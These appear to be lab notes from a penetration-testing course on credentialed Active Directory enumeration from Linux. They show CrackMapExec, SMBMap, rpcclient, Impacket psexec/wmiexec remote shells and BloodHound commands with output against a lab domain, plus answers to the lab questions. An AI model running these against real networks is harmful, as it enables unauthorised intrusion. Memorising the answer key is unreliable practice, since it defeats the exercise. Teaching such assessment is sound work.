


# Credentialed Enumeration - from Linux 
We have various options available, but the most important thing to remember is that most of these tools will not work without valid domain user credentials at any permission level. So at a minimum, we will have to have acquired a user's cleartext password, NTLM password hash, or SYSTEM access on a domain-joined host.

To follow along, spawn the target at the bottom of this section and SSH to the Linux attack host as the `htb-student` user. For enumeration of the INLANEFREIGHT.LOCAL domain using the tools installed on the ATTACK01 Parrot Linux host, we will use the following credentials: User=`forend` and password=`Klmcargo2`.

## CrackMapExec
[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) (CME, now NetExec) is a powerful toolset to help with assessing AD environments. It utilizes packages from the Impacket and PowerSploit toolkits to perform its functions. 

### CME - Domain User Enumeration

```sh
masterofblafu@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2 
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] Enumerated domain user(s)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  INLANEFREIGHT.LOCAL\administrator                  badpwdcount: 0 baddpwdtime: 2022-03-29 12:29:14.476567
SMB         172.16.5.5      445    ACADEMY-EA-DC01  INLANEFREIGHT.LOCAL\guest                          badpwdcount: 0 baddpwdtime: 1600-12-31 19:03:58
SMB         172.16.5.5      445    ACADEMY-EA-DC01  INLANEFREIGHT.LOCAL\lab_adm                        badpwdcount: 0 baddpwdtime: 2022-04-09 23:04:58.611828
SMB         172.16.5.5      445    ACADEMY-EA-DC01  INLANEFREIGHT.LOCAL\krbtgt                         badpwdcount: 0 baddpwdtime: 1600-12-31 19:03:58
SMB         172.16.5.5      445    ACADEMY-EA-DC01  INLANEFREIGHT.LOCAL\htb-student                    badpwdcount: 0 baddpwdtime: 2022-03-30 16:27:41.960920
SMB         172.16.5.5      445    ACADEMY-EA-DC01  INLANEFREIGHT.LOCAL\avazquez                       badpwdcount: 3 baddpwdtime: 2022-02-24 18:10:01.903395

<SNIP>
```

### CME - Domain Group Enumeration

```sh
masterofblafu@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2 
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] Enumerated domain group(s)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Administrators                           membercount: 3
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Users                                    membercount: 4
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Guests                                   membercount: 2
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Print Operators                          membercount: 0
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Backup Operators                         membercount: 1
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Replicator                               membercount: 0

<SNIP>

SMB         172.16.5.5      445    ACADEMY-EA-DC01  Domain Admins                            membercount: 19
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Domain Users                             membercount: 0

<SNIP>

SMB         172.16.5.5      445    ACADEMY-EA-DC01  Contractors                              membercount: 138
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Accounting                               membercount: 15
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Engineering                              membercount: 19
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Executives                               membercount: 10
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Human Resources                          membercount: 36

<SNIP>
```

### CME - Logged On Users

```sh
masterofblafu@htb[/htb]$ sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users

SMB         172.16.5.130    445    ACADEMY-EA-FILE  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-FILE) (domain:INLANEFREIGHT.LOCAL) (signing:False) (SMBv1:False)
SMB         172.16.5.130    445    ACADEMY-EA-FILE  [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2 (Pwn3d!)
SMB         172.16.5.130    445    ACADEMY-EA-FILE  [+] Enumerated loggedon users
SMB         172.16.5.130    445    ACADEMY-EA-FILE  INLANEFREIGHT\clusteragent              logon_server: ACADEMY-EA-DC01
SMB         172.16.5.130    445    ACADEMY-EA-FILE  INLANEFREIGHT\lab_adm                   logon_server: ACADEMY-EA-DC01
SMB         172.16.5.130    445    ACADEMY-EA-FILE  INLANEFREIGHT\svc_qualys                logon_server: ACADEMY-EA-DC01
SMB         172.16.5.130    445    ACADEMY-EA-FILE  INLANEFREIGHT\wley                      logon_server: ACADEMY-EA-DC01

<SNIP>
```

We see that many users are logged into this server which is very interesting. We can also see that our user `forend` is a local admin because (`Pwn3d!`) appears after the tool successfully authenticates to the target host.

### CME Share Searching

```sh
masterofblafu@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2 
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] Enumerated shares
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Share           Permissions     Remark
SMB         172.16.5.5      445    ACADEMY-EA-DC01  -----           -----------     ------
SMB         172.16.5.5      445    ACADEMY-EA-DC01  ADMIN$                          Remote Admin
SMB         172.16.5.5      445    ACADEMY-EA-DC01  C$                              Default share
SMB         172.16.5.5      445    ACADEMY-EA-DC01  Department Shares READ            
SMB         172.16.5.5      445    ACADEMY-EA-DC01  IPC$            READ            Remote IPC
SMB         172.16.5.5      445    ACADEMY-EA-DC01  NETLOGON        READ            Logon server share 
SMB         172.16.5.5      445    ACADEMY-EA-DC01  SYSVOL          READ            Logon server share 
SMB         172.16.5.5      445    ACADEMY-EA-DC01  User Shares     READ            
SMB         172.16.5.5      445    ACADEMY-EA-DC01  ZZZ_archive     READ
```

We see several shares available to us with `READ` access. The `Department Shares`, `User Shares`, and `ZZZ_archive` shares would be worth digging into further as they may contain sensitive data such as passwords or PII. 

### Spider_plus
The module `spider_plus` will dig through each readable share on the host and list all readable files.

```sh
masterofblafu@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2 
SPIDER_P... 172.16.5.5      445    ACADEMY-EA-DC01  [*] Started spidering plus with option:
SPIDER_P... 172.16.5.5      445    ACADEMY-EA-DC01  [*]        DIR: ['print$']
SPIDER_P... 172.16.5.5      445    ACADEMY-EA-DC01  [*]        EXT: ['ico', 'lnk']
SPIDER_P... 172.16.5.5      445    ACADEMY-EA-DC01  [*]       SIZE: 51200
SPIDER_P... 172.16.5.5      445    ACADEMY-EA-DC01  [*]     OUTPUT: /tmp/cme_spider_plus
```

In the above command, we ran the spider against the `Department Shares`. When completed, CME writes the results to a JSON file located at `/tmp/cme_spider_plus/<ip of host>`. 

```sh
masterofblafu@htb[/htb]$ head -n 10 /tmp/cme_spider_plus/172.16.5.5.json 

{
    "Department Shares": {
        "Accounting/Private/AddSelect.bat": {
            "atime_epoch": "2022-03-31 14:44:42",
            "ctime_epoch": "2022-03-31 14:44:39",
            "mtime_epoch": "2022-03-31 15:14:46",
            "size": "278 Bytes"
        },
        "Accounting/Private/ApproveConnect.wmf": {
            "atime_epoch": "2022-03-31 14:45:14",
     
<SNIP>
```

## SMBMap
SMBMap is great for enumerating SMB shares from a Linux attack host. It can be used to gather a listing of shares, permissions, and share contents if accessible. Once access is obtained, it can be used to download and upload files and execute remote commands.

### SMBMap To Check Access

```sh
masterofblafu@htb[/htb]$ smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5

[+] IP: 172.16.5.5:445  Name: inlanefreight.local                               
        Disk                                                    Permissions Comment
    ----                                                    ----------- -------
    ADMIN$                                              NO ACCESS   Remote Admin
    C$                                                  NO ACCESS   Default share
    Department Shares                                   READ ONLY   
    IPC$                                                READ ONLY   Remote IPC
    NETLOGON                                            READ ONLY   Logon server share 
    SYSVOL                                              READ ONLY   Logon server share 
    User Shares                                         READ ONLY   
    ZZZ_archive                                         READ ONLY
```

The above will tell us what our user can access and their permission levels. Like our results from CME, we see that the user forend has no access to the DC via the `ADMIN$` or `C$` shares (this is expected for a standard user account), but does have read access over `IPC$`, `NETLOGON`, and `SYSVOL` which is the default in any domain. 

### Recursive List Of All Directories

```sh
masterofblafu@htb[/htb]$ smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Shares' --dir-only

[+] IP: 172.16.5.5:445  Name: inlanefreight.local                               
        Disk                                                    Permissions Comment
    ----                                                    ----------- -------
    Department Shares                                   READ ONLY   
    .\Department Shares\*
    dr--r--r--                0 Thu Mar 31 15:34:29 2022    .
    dr--r--r--                0 Thu Mar 31 15:34:29 2022    ..
    dr--r--r--                0 Thu Mar 31 15:14:48 2022    Accounting
    dr--r--r--                0 Thu Mar 31 15:14:39 2022    Executives
    dr--r--r--                0 Thu Mar 31 15:14:57 2022    Finance
    dr--r--r--                0 Thu Mar 31 15:15:04 2022    HR
    dr--r--r--                0 Thu Mar 31 15:15:21 2022    IT
    dr--r--r--                0 Thu Mar 31 15:15:29 2022    Legal
    dr--r--r--                0 Thu Mar 31 15:15:37 2022    Marketing
    dr--r--r--                0 Thu Mar 31 15:15:47 2022    Operations
    dr--r--r--                0 Thu Mar 31 15:15:58 2022    R&D
    dr--r--r--                0 Thu Mar 31 15:16:10 2022    Temp
    dr--r--r--                0 Thu Mar 31 15:16:18 2022    Warehouse

    <SNIP>
```

## rpcclient
[rpcclient](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) is a handy tool created for use with the Samba protocol and to provide extra functionality via MS-RPC. It can enumerate, add, change, and even remove objects from AD. 

### SMB NULL Session with rpcclient

```sh
$ rpcclient -U "" -N 172.16.5.5
rpcclient $>
```

From here, we can begin to enumerate any number of different things. Let's start with domain users.

### rpcclient Enumeration
While looking at users in rpcclient, you may notice a field called `rid:` beside each user. A [Relative Identifier (RID)](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/security-identifiers) is a unique identifier (represented in hexadecimal format) utilized by Windows to track and identify objects. To explain how this fits in, let's look at the examples below:

- The SID for the INLANEFREIGHT.LOCAL domain is: `S-1-5-21-3842939050-3880317879-2865463114`.
- When an object is created within a domain, the number above (SID) will be combined with a RID to make a unique value used to represent the object.
- So the domain user `htb-student` with a RID:0x457 Hex 0x457 would = decimal `1111`, will have a full user SID of: `S-1-5-21-3842939050-3880317879-2865463114-1111`.
This is unique to the `htb-student` object in the INLANEFREIGHT.LOCAL domain and you will never see this paired value tied to another object in this domain or any other.

The built-in Administrator account will always have the RID value `Hex 0x1f4`, or `500`. This will always be the case.

### RPCClient User Enumeration By RID

```sh
rpcclient $> queryuser 0x457

        User Name   :   htb-student
        Full Name   :   Htb Student
        Home Drive  :
        Dir Drive   :
        Profile Path:
        Logon Script:
        Description :
        Workstations:
        Comment     :
        Remote Dial :
        Logon Time               :      Wed, 02 Mar 2022 15:34:32 EST
        Logoff Time              :      Wed, 31 Dec 1969 19:00:00 EST
        Kickoff Time             :      Wed, 13 Sep 30828 22:48:05 EDT
        Password last set Time   :      Wed, 27 Oct 2021 12:26:52 EDT
        Password can change Time :      Thu, 28 Oct 2021 12:26:52 EDT
        Password must change Time:      Wed, 13 Sep 30828 22:48:05 EDT
        unknown_2[0..31]...
        user_rid :      0x457
        group_rid:      0x201
        acb_info :      0x00000010
        fields_present: 0x00ffffff
        logon_divs:     168
        bad_password_count:     0x00000000
        logon_count:    0x0000001d
        padding1[0..7]...
        logon_hrs[0..21]...
```

### Enumdomusers
If we wished to enumerate all users to gather the RIDs for more than just one, we would use the `enumdomusers` command.

```sh
rpcclient $> enumdomusers

user:[administrator] rid:[0x1f4]
user:[guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[lab_adm] rid:[0x3e9]
user:[htb-student] rid:[0x457]
user:[avazquez] rid:[0x458]
user:[pfalcon] rid:[0x459]
user:[fanthony] rid:[0x45a]
user:[wdillard] rid:[0x45b]
user:[lbradford] rid:[0x45c]
user:[sgage] rid:[0x45d]
user:[asanchez] rid:[0x45e]
user:[dbranch] rid:[0x45f]
user:[ccruz] rid:[0x460]
user:[njohnson] rid:[0x461]
user:[mholliday] rid:[0x462]

<SNIP>
```

## Impacket Toolkit
Impacket is a versatile toolkit that provides us with many different ways to enumerate, interact, and exploit Windows protocols and find the information we need using Python. 

### Psexec.py
One of the most useful tools in the Impacket suite is `psexec.py`. Psexec.py is a clone of the Sysinternals psexec executable, but works slightly differently from the original. The tool creates a remote service by uploading a randomly-named executable to the `ADMIN$` share on the target host. It then registers the service via `RPC` and the `Windows Service Control Manager`. Once established, communication happens over a named pipe, providing an interactive remote shell as `SYSTEM` on the victim host.

### Using psexec.py
To connect to a host with psexec.py, we need credentials for a user with local administrator privileges.

```sh
$ psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125
```

### wmiexec.py
Wmiexec.py utilizes a semi-interactive shell where commands are executed through [Windows Management Instrumentation](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page). It does not drop any files or executables on the target host and generates fewer logs than other modules. After connecting, it runs as the local admin user we connected with (this can be less obvious to someone hunting for an intrusion than seeing SYSTEM executing many commands). This is a more stealthy approach to execution on hosts than other tools, but would still likely be caught by most modern anti-virus and EDR systems. We will use the same account as with psexec.py to access the host.

### Using wmiexec.py

```sh
$ wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5
```

Note that this shell environment is not fully interactive, so each command issued will execute a new cmd.exe from WMI and execute your command. 

## Windapsearch
[Windapsearch](https://github.com/ropnop/windapsearch) is another handy Python script we can use to enumerate users, groups, and computers from a Windows domain by utilizing LDAP queries. 

### Windapsearch - Domain Admins

```sh
masterofblafu@htb[/htb]$ python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da

[+] Using Domain Controller at: 172.16.5.5
[+] Getting defaultNamingContext from Root DSE
[+] Found: DC=INLANEFREIGHT,DC=LOCAL
[+] Attempting bind
[+] ...success! Binded as: 
[+]  u:INLANEFREIGHT\forend
[+] Attempting to enumerate all Domain Admins
[+] Using DN: CN=Domain Admins,CN=Users.CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
[+] Found 28 Domain Admins:

cn: Administrator
userPrincipalName: administrator@inlanefreight.local

cn: lab_adm

cn: Matthew Morgan
userPrincipalName: mmorgan@inlanefreight.local

<SNIP>
```

From the results in the shell above, we can see that it enumerated 28 users from the Domain Admins group. 

### Windapsearch - Privileged Users
To identify more potential users, we can run the tool with the `-PU` flag and check for users with elevated privileges that may have gone unnoticed. 

```sh
masterofblafu@htb[/htb]$ python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU

[+] Using Domain Controller at: 172.16.5.5
[+] Getting defaultNamingContext from Root DSE
[+]     Found: DC=INLANEFREIGHT,DC=LOCAL
[+] Attempting bind
[+]     ...success! Binded as:
[+]      u:INLANEFREIGHT\forend
[+] Attempting to enumerate all AD privileged users
[+] Using DN: CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
[+]     Found 28 nested users for group Domain Admins:

cn: Administrator
userPrincipalName: administrator@inlanefreight.local

cn: lab_adm

cn: Angela Dunn
userPrincipalName: adunn@inlanefreight.local

cn: Matthew Morgan
userPrincipalName: mmorgan@inlanefreight.local

cn: Dorothy Click
userPrincipalName: dclick@inlanefreight.local

<SNIP>

[+] Using DN: CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
[+]     Found 3 nested users for group Enterprise Admins:

cn: Administrator
userPrincipalName: administrator@inlanefreight.local

cn: lab_adm

cn: Sharepoint Admin
userPrincipalName: sp-admin@INLANEFREIGHT.LOCAL

<SNIP>
```

## Bloodhound.py
Once we have domain credentials, we can run the [BloodHound.py](https://github.com/fox-it/BloodHound.py) BloodHound ingestor from our Linux attack host. BloodHound is one of, if not the most impactful tools ever released for auditing Active Directory security, and it is hugely beneficial for us as penetration testers. We can take large amounts of data that would be time-consuming to sift through and create graphical representations or "attack paths" of where access with a particular user may lead. We will often find nuanced flaws in an AD environment that would have been missed without the ability to run queries with the BloodHound GUI tool and visualize issues. The tool uses graph theory to visually represent relationships and uncover attack paths that would have been difficult, or even impossible to detect with other tools. The tool consists of two parts: the [SharpHound collector](https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors) written in C# for use on Windows systems, or for this section, the BloodHound.py collector (also referred to as an ingestor) and the [BloodHound](https://github.com/BloodHoundAD/BloodHound/releases) GUI tool which allows us to upload collected data in the form of JSON files. Once uploaded, we can run various pre-built queries or write custom queries using [Cypher language](https://specterops.io/blog/2017/09/18/bloodhound-intro-to-cypher/). The tool collects data from AD such as users, groups, computers, group membership, GPOs, ACLs, domain trusts, local admin access, user sessions, computer and user properties, RDP access, WinRM access, etc.

### Executing BloodHound.py

```sh
masterofblafu@htb[/htb]$ sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all 

INFO: Found AD domain: inlanefreight.local
INFO: Connecting to LDAP server: ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
INFO: Found 1 domains
INFO: Found 2 domains in the forest
INFO: Found 564 computers
INFO: Connecting to LDAP server: ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
INFO: Found 2951 users
INFO: Connecting to GC LDAP server: ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
INFO: Found 183 groups
INFO: Found 2 trusts
INFO: Starting computer enumeration with 10 workers

<SNIP>
```

The command above executed Bloodhound.py with the user `forend`. We specified our nameserver as the Domain Controller with the `-ns` flag and the domain, INLANEFREIGHt.LOCAL with the `-d` flag. The `-c` all flag told the tool to run all checks. 

### Viewing the Results

```sh
masterofblafu@htb[/htb]$ ls

20220307163102_computers.json  20220307163102_domains.json  20220307163102_groups.json  20220307163102_users.json
```

### Upload the Zip File into the BloodHound GUI
We could then type `sudo neo4j start` to start the neo4j service, firing up the database we'll load the data into and also run Cypher queries against.

Next, we can type `bloodhound` from our Linux attack host when logged in using `freerdp` to start the BloodHound GUI application and upload the data. The credentials are pre-populated on the Linux attack host, but if for some reason a credential prompt is shown, use:

```
user == neo4j / pass == HTB_@cademy_stdnt!.
```

Once all of the above is done, we should have the BloodHound GUI tool loaded with a blank slate. Now we need to upload the data. We can either upload each JSON file one by one or zip them first with a command such as `zip -r ilfreight_bh.zip *.json` and upload the Zip file. We do this by clicking the `Upload Data` button on the right side of the window (green arrow). When the file browser window pops up to select a file, choose the zip file (or each JSON file) (red arrow) and hit `Open`.

### Uploading the Zip File



### Searching for Relationships



The query chosen to produce the map above was `Find Shortest Paths To Domain Admins`. It will give us any logical paths it finds through users/groups/hosts/ACLs/GPOs, etc., relationships that will likely allow us to escalate to Domain Administrator privileges or equivalent. 

## Questions
SSH to **10.129.40.177** (ACADEMY-EA-ATTACK01), with user `htb-student` and password `HTB_@cademy_stdnt!`
1. What AD User has a RID equal to Decimal 1170? **Answer: mmorgan**
   - `ssh htb-student@10.129.40.177` → SSH to the target
   - Use SMB NULL Session with rpcclient to query domain users:
        ```sh
        $rpcclient -U "" -N 172.16.5.5
        rpcclient $> queryuser 1170
            User Name   :	mmorgan
            Full Name   :	Matthew Morgan
            Home Drive  :	
            Dir Drive   :	
            Profile Path:	
            Logon Script:	
            Description :	
            Workstations:	
            Comment     :	
            Remote Dial :
            Logon Time               :	Thu, 10 Mar 2022 14:48:06 EST
            Logoff Time              :	Wed, 31 Dec 1969 19:00:00 EST
            Kickoff Time             :	Wed, 31 Dec 1969 19:00:00 EST
            Password last set Time   :	Tue, 05 Apr 2022 15:34:55 EDT
            Password can change Time :	Wed, 06 Apr 2022 15:34:55 EDT
            Password must change Time:	Wed, 13 Sep 30828 22:48:05 EDT
            unknown_2[0..31]...
            user_rid :	0x492
            group_rid:	0x201
            acb_info :	0x00010210
            fields_present:	0x00ffffff
            logon_divs:	168
            bad_password_count:	0x00000000
            logon_count:	0x00000018
            padding1[0..7]...
            logon_hrs[0..21]...
        ```
2. What is the membercount: of the "Interns" group? **Answer: 10**
   - Find the `Interns`' RID and query its information:
        ```sh
        rpcclient $> enumdomgroups
        <SNIP>
        group:[Interns] rid:[0xff0]
        <SNIP>

        rpcclient $> querygroup 0xff0
            Group Name:	Interns
            Description:	
            Group Attribute:7
            Num Members:10
        ```